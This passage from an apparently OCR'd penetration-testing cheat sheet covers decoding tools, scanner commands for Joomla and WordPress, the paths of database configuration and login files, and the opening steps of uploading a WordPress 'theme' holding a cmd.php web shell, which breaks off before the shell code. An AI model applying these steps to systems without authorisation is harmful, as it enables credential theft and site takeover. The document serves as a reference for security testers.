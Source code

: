Burp Suite \(Decoder module\)

[http://portswigger.net/burp/help/decoder.html](http://portswigger.net/burp/help/decoder.html)

Decode base64 standard input

base64 -d

&lt;paste base-64 encoded text&gt;

^D

Javascript deobfustication

[http://www.javascriptbeautifier.com/](http://www.javascriptbeautifier.com/)

[http://jsbeautifier.org/](http://jsbeautifier.org/)

[http://vitzo.com/en/tools/javascript/javascript-beautifier](http://vitzo.com/en/tools/javascript/javascript-beautifier)

---

**Specific Web applications**

**Joomla**

Joomla default database configuration filename

&lt;web-app-path&gt;/configuration.php

Scanning Joomla! for plugins and versions

/pentest/web/scanners/joomscan/joomscan.pl -u &lt;target-and-joomla-path&gt;

/pentest/enumeration/web/cms-explorer  -url &lt;target-and-joomla-path&gt; -type joomla

**WordPress**

WordPress default database configuration filename

&lt;web-app-path&gt;

WordPress default login page

&lt;web-app-path&gt;/wp-login.php

**WordPress plugins**

&lt;web-app-path&gt;/wp-content/plugins

Scanning WordPress for plugins and versions

/pentest/web/wpscan/wpscan.rb --url &lt;target-and-wordpress-path&gt; --proxy &lt;proxy-addr:port&gt; -enumerate \[u\|p\|v\|t\]

/pentest/enumeration/web/cms-explorer  -url &lt;target-and-wordpress-path&gt; -type wordpress

Newer WP: "Themes" can be uploaded as zip files by WP administrators i.e. you:

mkdir wpx

vi wpx/cmd.php

cat wpx/cmd.php

